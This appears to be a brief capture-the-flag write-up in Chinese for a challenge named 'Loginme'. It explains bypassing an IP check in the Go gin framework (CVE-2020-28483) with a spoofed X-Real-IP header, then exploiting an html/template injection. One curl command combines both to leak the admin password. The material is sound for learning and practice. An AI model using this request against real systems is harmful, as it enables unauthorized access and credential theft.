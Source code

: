 # Loginme

考点
1. Golang gin CVE-2020-28483 绕过X-Forwarded-For头,使用X-Real-IP头(稍微看下源码)
2. 一个html/template的模板注入


```bash
curl -g "http://ip:port/admin/index?id=-11&age={{.Password}}" -H "X-Real-IP:127.0.0.1"
```


